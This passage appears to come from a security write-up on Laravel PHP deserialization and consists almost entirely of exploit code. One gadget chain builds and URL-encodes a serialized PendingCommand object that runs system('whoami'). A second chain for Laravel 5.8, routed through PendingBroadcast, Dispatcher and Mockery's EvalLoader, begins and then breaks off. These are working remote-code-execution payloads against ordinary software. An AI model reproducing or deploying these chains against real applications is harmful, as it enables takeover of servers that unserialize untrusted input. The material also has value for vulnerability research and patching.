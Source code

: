 ```php
    }
}

namespace {
    $defaultgenerator = new Faker\DefaultGenerator(array("hello" => "world"));

    $app = new Illuminate\Foundation\Application();

    $application = new Illuminate\Foundation\Application($app);

    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand($defaultgenerator, $application, 'system', array('whoami')); //此处执行命令

    echo urlencode(serialize($pendingcommand));
}

```

##### 5.8

```php
<?php
namespace Illuminate\Broadcasting{

    use Illuminate\Bus\Dispatcher;
    use Illuminate\Foundation\Console\QueuedCommand;

    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct(){
            $this->events=new Dispatcher();
            $this->event=new QueuedCommand();
        }
    }
}
namespace Illuminate\Foundation\Console{

    use Mockery\Generator\MockDefinition;

    class QueuedCommand
    {
        public $connection;
        public function __construct(){
            $this->connection=new MockDefinition();
        }
    }
}
namespace Illuminate\Bus{

    use Mockery\Loader\EvalLoader;

    class Dispatcher
    {
        protected $queueResolver;
        public function __construct(){
            $this->queueResolver=[new EvalLoader(),'load'];
        }
    }
}
namespace Mockery\Loader{
    class EvalLoader
    {
```